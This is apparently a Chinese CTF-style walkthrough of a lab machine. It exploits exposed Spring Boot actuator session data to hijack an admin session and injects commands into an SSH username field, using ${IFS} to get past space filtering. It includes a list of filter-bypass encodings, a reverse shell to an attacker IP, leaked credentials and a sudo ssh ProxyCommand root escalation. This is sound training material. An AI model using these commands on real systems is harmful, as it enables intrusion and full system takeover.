

## nmap


## 80端口

### dirsearch

```shell
[10:25:17] 200 -  634B  - /actuator
[10:25:18] 200 -   10KB - /actuator/mappings 
[10:25:18] 200 -   15B  - /actuator/health
[10:25:18] 200 -    5KB - /actuator/env
[10:25:18] 200 -   48B  - /actuator/sessions 
[10:25:19] 401 -   97B  - /admin             
[10:25:19] 200 -  124KB - /actuator/beans     
[10:25:48] 500 -   73B  - /error
[10:26:05] 200 -    4KB - /login             
Task Completed  
```

`/actuator/sessions` 下有`kanderson`用户的session，并且每次错误登录都会在该页面下生成一个未认证的session



将cookie替换为kanderson的cookie，即可成功访问kanderson的管理页面


该功能应该是一个ssh连接的功能，输入本机的ip和root用户，提示连接超时，连接靶机本机试试

`hostname:localhost` `username:root`


错误是验证失败，尝试拼接命令执行，以分号分割

在hostname中进行拼接显示无效的hostname，尝试在username中拼接，ping攻击机，攻击机监听icmp包，看是否真的进行命令执行

`hostname:localhost` `username:root;ping 10.10.16.3` 


不能包含空格，尝试对空格进行编码

空格过滤绕过的方式有很多

> %20 %09 %0a %0b %0c %0d %0e %0f %a0 %00 /**/ /\*\!\*/
>
> 大括号绕过，如{ls,-l}
>
>  $IFS、$IFS&2、$IFS9、${IFS}
>
> 重定向字符< , <>

尝试之后只有${IFS}可以绕过

## 得到shell

`hostname`:`localhost` `Username`:`root;ping${IFS}10.10.16.3;`


```shell
bash -c'bash -i &>/dev/tcp/10.10.16.3/443 >&1'

替换后的reverse shell
bash${IFS}-c${IFS}'exec${IFS}bash${IFS}-i${IFS}&>/dev/tcp/10.10.16.3/443${IFS}<&1'
```

查看进程下面有数据库，反编译jar包，在jar包中找到了数据库连接账号密码


```
psql -U postgres -h 127.0.0.1
```


`admin:manchesterunited`

josh用户可以用这个密码登录，josh有ssh的sudo提权

[ssh | GTFOBins](https://gtfobins.github.io/gtfobins/ssh/#sudo)

```
提权代码

sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```